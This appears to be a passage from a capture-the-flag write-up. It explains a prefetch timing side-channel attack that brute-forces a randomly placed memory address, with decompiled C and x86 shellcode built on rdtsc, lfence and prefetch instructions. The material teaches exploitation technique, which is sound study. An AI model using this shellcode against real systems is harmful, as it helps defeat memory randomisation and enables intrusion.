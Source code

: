 The attack is outlined in [this paper](https://gruss.cc/files/prefetch.pdf).

## Generating Shellcode for Prefetch
Essentially, we need shellcode that measures time access of the `prefetch` instruction. To do this, we're going to use the [`rdtsc`](https://www.felixcloutier.com/x86/rdtsc) instruction, which reads a timestamp into EDX and EAX.

We also know from the decompilation that `allocated` has 3 random bytes with the last 2 bytes NULL:

```c
fd = open("/dev/urandom", O_RDONLY);
read(fd,&address, 3);

[...]

address = (void *)((unsigned long)address << 16);
```

This means we only need to loop through 3 bytes of potential space. The following assembly will store the attempted 3 bytes of brute force in `r14`, then decrement it, prefetching `r14 << 16` each loop. It uses `rdtsc` before and after the prefetch, comparing the timestamps and calculating the difference. This difference is compared to a `THRESHOLD_PARAM` (which we will come to soon) to determine whether or not the address has been accessed previously.

Aside from that, the [`lfence`](https://www.felixcloutier.com/x86/lfence) instruction is used to increase reliability. `lfence` performs a serializing operation on all load-from-memory instructions triggered before it. Importantly, it does not execute until all prior instructions have completed, and no later instruction begins execution until lfence completes. This increases the reliability of timing attacks as it means that the time measured inbetween rtdsc instructions is entirely the time taken for the prefetch instructions, with no external noise from other instructions.

```asm
mov r14,0xffffff

loopStart:
    mov esi,r14d
    shl rsi,0x10
    
    xor ecx,ecx
    xor ebx,ebx
    mov cl,0x10
    
    prefetch_time:
        rdtsc
        mov edi,eax
        lfence

        prefetchnta     [rsi]
        prefetcht2      [rsi]
        prefetcht1      [rsi]
        prefetcht0      [rsi]

        lfence
        rdtsc
        sub eax,edi
        
        add ebx,eax
        loop prefetch_time
              
                
    cmp ebx, {THRESHOLD_PARAM}
    jb win

    dec r14
    jne loopStart

```